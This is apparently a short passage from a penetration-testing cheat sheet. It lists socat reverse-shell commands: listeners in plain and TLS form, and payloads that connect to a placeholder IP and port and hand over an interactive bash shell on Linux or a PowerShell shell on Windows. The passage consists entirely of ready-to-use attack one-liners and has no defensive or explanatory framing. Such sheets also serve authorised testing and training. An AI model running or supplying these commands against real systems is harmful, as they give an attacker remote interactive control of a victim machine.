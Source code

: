 + **Socat reverse-shell(listener)**:
`socat tcp-l:<port> file:`tty`,raw,echo=0`
`socat openssl-listen:<port>,cert=<cert.pem>,verify=0 file:\`tty\`,raw,echo=0`

+ **Socat reverse-shell(linux payload)**:
`socat tcp:<ip>:<port> exec:"bash -li",pty,stderr,sigint,setsid,sane`
`socat openssl:<ip>:<port>,verify=0 exec:"bash -li",pty,stderr,sigint,setsid,sane`

+ **Socat reverse-shell(windows payload)**:
 `socat tcp:<ip>:<port> exec:"powershell.exe",pipes`
`socat openssl:<ip>:<port>,verify=0 exec:"powershell.exe",pipes`
